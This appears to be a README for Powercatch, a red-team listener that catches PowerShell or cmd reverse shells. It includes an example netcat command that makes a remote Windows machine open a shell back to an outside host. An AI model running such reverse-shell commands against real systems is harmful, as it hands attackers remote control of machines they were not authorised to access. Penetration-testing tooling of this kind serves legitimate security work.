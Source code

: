 # Powercatch

Listen for (powershell.exe || cmd.exe) reverse shells!

### Example:
Remote Machine:
```
PS C:\Windows\system32> nc.exe 10.10.10.1 9000 -e powershell
```
Local Machine:
```
$ powercatch 9000
[*] listening on 0.0.0.0:9000
[*] Accepted connection from 10.10.10.95 on port 49988
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Users\redteam\Desktop> PowerHelp

Commands:
  PowerHelp              Display this menu
  clear                  Clear the screen
  cls                    Clear the screen
  exit                   Use exit command if you are in nested shell eg: if you called cmd within powershell
  quit                   Quits program

Key Combinations:
  Ctrl + \               For Directory completion (Makes a directory request on each key-combination press)
                         eg: PS > dir -Force <Ctrl + \>
  Ctrl + c               Cancels command so that you can try again
  Ctrl + d               Quits program

Future Commands To be Implemented:
  PowerDownload          Download remote file eg: PowerDownload <remote_dir> <local_dir>
  PowerUpload            Upload local file eg: PowerUpload <local_dir> <remote_dir>

PS C:\Users\redteam\Desktop> 
```

## Features:
 - Tab completion 
 - (Ctrl-l or "clear" or "cls") clears the screen
 - History
 - File and Folder completion with Ctrl + \ (Makes a directory request on each key-combination press)
 - Type "PowerHelp" for Powercatch help commands (command not sent over the network)

### TODO:
- Add UDP support

### Install
```
$ git clone https://github.com/postrequest/powercatch.git
$ cd powercatch/
$ pip3 install prompt_toolkit
$ ./powercatch
```

